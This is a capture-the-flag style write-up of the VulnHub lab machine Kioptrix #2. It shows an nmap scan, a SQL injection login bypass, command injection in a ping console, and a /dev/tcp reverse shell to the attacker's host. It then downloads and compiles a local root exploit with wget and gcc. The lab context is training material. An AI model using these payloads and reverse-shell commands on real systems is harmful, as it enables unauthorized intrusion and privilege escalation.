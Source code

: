 ```yaml
---
title: "VulnHub - Kioptrix #2"
author: Nasrallah
description: ""
date: 2022-12-27 00:00:00 +0000
categories: [VulnHub]
tags: [vulnhub, linux, easy, commandinjection, sqli]
img_path: /assets/img/vulnhub/kioptrix2
---
```



---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Kioptrix level 2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/) from [VulnHub](https://www.vulnhub.com/).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 192.168.56.9                                              
Host is up (0.00018s latency).    
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION 
22/tcp   open  ssh        OpenSSH 3.9p1 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey:                                                                 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
80/tcp   open  http       Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.0.52 (CentOS)
111/tcp  open  rpcbind    2 (RPC #100000)                                                                                                                     
| rpcinfo:                                                                     
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind     
|   100000  2            111/udp   rpcbind
|   100024  1            924/udp   status
|_  100024  1            927/tcp   status
443/tcp  open  ssl/https?
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2022-12-13T22:33:08+00:00; +4h59m59s from scanner time.
631/tcp  open  ipp        CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
|_http-server-header: CUPS/1.1
927/tcp  open  status     1 (RPC #100024)
3306/tcp open  mysql      MySQL (unauthorized)
MAC Address: 08:00:27:82:C2:D8 (Oracle VirtualBox virtual NIC)
```

We found a couple of open ports running multiple services on Linux CentOS. We see OpenSSH running on port 22, Apache on port 80 and mysql on port 3306.

## Web

Let's check the webpage on port 80.

![](1.png)

It's a login page.

I tried some default credentials but couldn't login but managed to do so using sql injection.`' or 1=1 --`

![](2.png)

We see a web console giving us the ability to ping machines on the network. I instantly tried to inject command and succeeded with the command `;id`.

![](3.png)

# **Foothold**

Now it's time to get a reverse shell, first we setup a netcat listener with `nc -lvnp 1234` and then submit the following command in the web console.

```bash
;sh -i >& /dev/tcp/192.168.56.1/1234 0>&1
```

![](4.png)

After that i upgraded the shell using python pty.

![](5.png)

# **Privilege Escalation**

We saw earlier from the nmap scan that the linux flavor of the machine is `CentOS`, let's check it's version with `lsb_release -a`.

```bash
bash-3.00$ lsb_release -a
LSB Version:    :core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID: CentOS
Description:    CentOS release 4.5 (Final)
Release:        4.5
Codename:       Final

```

Let's check if this version has any exploits

![](6.png)

We found multiple privilege escalation exploits but the one that's gonna work is `linux/local/9545.c` so we copy it to our current folder using the command `searchsploit -m linux/local/9545.c`

After that we need to upload it to target, we do that using `python3 -m http.server` to serve the file and `wget` to download it from the target.

![](7.png)

Now we need to compile using this command `gcc 9545.c -o exploit` and then run it.

![](8.png)

Great! The exploit worked and we got a root shell.



---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
